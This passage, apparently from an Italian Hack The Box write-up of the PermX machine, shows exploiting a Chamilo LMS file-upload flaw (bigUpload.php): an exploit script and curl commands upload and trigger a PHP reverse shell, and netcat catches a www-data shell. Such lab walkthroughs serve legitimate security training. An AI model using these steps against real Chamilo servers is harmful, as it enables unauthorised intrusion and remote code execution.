 Lanciamo l'exploit
```bash
kali@kali ~/htb/permx
❯python3 main.py -u http://lms.permx.htb -a revshell

Enter the name of the webshell file that will be placed on the target server (default: webshell.php): readme
Enter the name of the bash revshell file that will be placed on the target server (default: revshell.sh): readme
Enter the host the target server will connect to when the revshell is run: 10.10.14.49
Enter the port on the host the target server will connect to when the revshell is run: 1010
[!] BE SURE TO BE LISTENING ON THE PORT THAT YOU DEFINED [!]

[+] Execution completed [+]

You should already have a revserse connection by now.
```

e abbiamo la nostra shell
```bash
kali@kali ~/htb/permx
❯ nc -lnvp 1010
listening on [any] 1010 ...
connect to [10.10.14.49] from (UNKNOWN) [10.10.11.23] 37244
bash: cannot set terminal process group (1191): Inappropriate ioctl for device
bash: no job control in this shell
www-data@permx:/var/www/chamilo/main/inc/lib/javascript/bigupload/files$
```

## Manual 

Possiamo ottenere la nostra shell anche in maniera manuale

Leggendo la CVE scopriamo che il percorso vulnerabile è il seguente `/main/inc/lib/javascript/bigupload/inc/bigUpload.php` quindi quello che possiamo fare è carica con curl una revshell e richiamarla sempre con curl 

```bash
kali@kali ~/htb/permx
❯ curl -F 'bigUploadFile=@revers.php' 'http://lms.permx.htb//main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.%
```

ci mettiamo sempre in ascolto con nc

```bash
kali@kali ~/htb/permx
❯ nc -lnvp 443
listening on [any] 443 ...
```

e sempre con curl lo richiamiamo 
```bash
kali@kali ~/htb/permx
❯ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/revers.php'
```
